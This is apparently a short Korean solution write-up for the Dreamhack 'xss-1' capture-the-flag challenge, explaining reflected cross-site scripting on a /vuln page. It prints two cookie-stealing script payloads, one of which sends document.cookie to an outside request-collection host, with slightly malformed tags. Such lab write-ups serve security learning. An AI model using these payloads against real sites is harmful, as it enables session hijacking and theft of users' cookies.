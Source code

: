 #xss-1 풀이법

---

서버에서 이용자의 입력값을 별다른 검증 없이 페이지에 출력할 경우에 발생할 수 있는 문제점에 존재한다. (/vuln)<br>
XSS 공격은 주로 이용자의 입력값이 출력되는 페이지에서 발생하며,<br>
해당 공격을 통해 타 이용자의 브라우저에 저장된 쿠키 및 세션 정보를 탈취할 수 있다.
location.href 를 이용해 주소를 지정하고 document.cookie를 통해 쿠키값을 얻는다.<br>
**&lt;script&gt;location.href = "/memo?memo=" + document.cookie;&lt;/script&gt;**
or
**&lt;script&gt;>location.href = "http://hostname.request.dreamhack.games/?memo=" + document.cookie;</script&gt;**

---
